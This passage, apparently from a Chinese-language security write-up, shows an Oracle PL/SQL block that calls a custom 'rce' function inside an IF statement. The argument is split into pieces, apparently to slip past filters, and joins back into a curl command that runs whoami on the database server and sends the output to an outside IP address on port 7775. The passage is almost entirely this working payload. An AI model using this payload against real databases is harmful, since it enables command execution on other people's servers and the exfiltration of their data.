 [![](assets/1709112088-8079268e56e2b1a6696f98546605f412.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101448-25c98766-d5df-1.png)

创建完毕后我们只需要和上面一样，用 IF 语句去调用 rce 方法。

```plain
BEGIN
if (rce('/bin/cu'||'rl ht'||'tp://8.130.24.188:7775?a=`/bin/whoami`') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```
